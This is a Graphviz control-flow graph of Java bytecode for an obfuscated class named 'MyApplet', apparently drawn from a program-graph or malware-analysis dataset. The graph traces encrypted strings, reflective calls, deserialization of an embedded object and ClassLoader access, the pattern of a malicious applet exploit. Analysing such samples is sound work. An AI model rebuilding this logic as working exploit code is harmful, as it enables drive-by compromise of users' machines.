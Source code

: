 digraph "" {
    "r0 := @this: MyApplet"
    "staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>"
    "r0 := @this: MyApplet"->"staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>";
    "store.r $r48"
    "staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>"->"store.r $r48";
    "push \"j*Q*\""
    "store.r $r48"->"push \"j*Q*\"";
    "store.r r1"
    "push \"j*Q*\""->"store.r r1";
    "push \"Wl`W\""
    "store.r r1"->"push \"Wl`W\"";
    "store.r r11"
    "push \"Wl`W\""->"store.r r11";
    "push \"9p;7\""
    "store.r r11"->"push \"9p;7\"";
    "store.r r15"
    "push \"9p;7\""->"store.r r15";
    "store.r r15"->"push \"j*Q*\"";
    "store.r r18"
    "push \"j*Q*\""->"store.r r18";
    "goto goto goto goto push \"Z\""
    "store.r r18"->"goto goto goto goto push \"Z\"";
    "goto goto goto push \"Z\""
    "goto goto goto goto push \"Z\""->"goto goto goto push \"Z\"";
    "goto goto push \"Z\""
    "goto goto goto push \"Z\""->"goto goto push \"Z\"";
    "goto push \"Z\""
    "goto goto push \"Z\""->"goto push \"Z\"";
    "push \"Z\""
    "goto push \"Z\""->"push \"Z\"";
    "load.r r18"
    "push \"Z\""->"load.r r18";
    "push \"%*::!p\""
    "load.r r18"->"push \"%*::!p\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"%*::!p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \";%5:\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";%5:\"";
    "push \";%5:\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \":!p;\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \":!p;\"";
    "push \":!p;\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "load.r r15"
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"load.r r15";
    "push \"k]p{\""
    "load.r r15"->"push \"k]p{\"";
    "push \"k]p{\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"*Zp\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"*Zp\"";
    "push \"*Zp\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "push 0"
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "newarray"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "load.r r0"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "newarray"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"virtualinvoke <java.lang.Object: java.lang.String toString()>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"->"store.r r15";
    "new java.io.ObjectInputStream"
    "store.r r15"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "load.r $r48"
    "dup1.r"->"load.r $r48";
    "staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>"
    "load.r $r48"->"staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r48";
    "store.r $r48"->"load.r $r48";
    "load.r $r48"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r48";
    "push 1"
    "load.r $r48"->"push 1";
    "load.r r11"
    "push 1"->"load.r r11";
    "push \"h7lH\""
    "load.r r11"->"push \"h7lH\"";
    "push \"h7lH\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \";&hv\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";&hv\"";
    "push \";&hv\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"v\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"v\"";
    "push \"v\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r48";
    "push 2"
    "load.r $r48"->"push 2";
    "push 2"->"push 0";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 0"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "store.r r0"
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r48";
    "push 3"
    "load.r $r48"->"push 3";
    "push 3"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r48";
    "push 4"
    "load.r $r48"->"push 4";
    "push 4"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "load.r r1"
    "arraywrite.r"->"load.r r1";
    "push \"%b;w!\""
    "load.r r1"->"push \"%b;w!\"";
    "push \"%b;w!\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"%@kY@b\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"%@kY@b\"";
    "push \"%@kY@b\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"22pY;\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"22pY;\"";
    "push \"22pY;\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"%*;k(w\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"%*;k(w\"";
    "push \"%*;k(w\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"@%5;k\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"@%5;k\"";
    "push \"@%5;k\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"(w@~p\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"(w@~p\"";
    "push \"(w@~p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Xp2pY\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Xp2pY\"";
    "push \"Xp2pY\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"@p52\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"@p52\"";
    "push \"@p52\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"2*O\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"2*O\"";
    "push \"2*O\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"store.r r0";
    "push \"p\""
    "store.r r0"->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \";\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";\"";
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"store.r r1";
    "store.r r1"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r11";
    "store.r r11"->"load.r r11";
    "load.r r11"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "load.r r11"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"load.r r1";
    "load.r r1"->"load.r r11";
    "load.r r11"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"load.r $r48";
    "load.r $r48"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"load.r $r48";
    "load.r $r48"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"load.r $r48";
    "load.r $r48"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "pop"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"pop";
    "pop"->"load.r $r48";
    "load.r $r48"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"load.r r15";
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"
    "load.r r15"->"staticinvoke <apl: void classfile(apl,java.lang.String)>";
    "goto return"
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
}
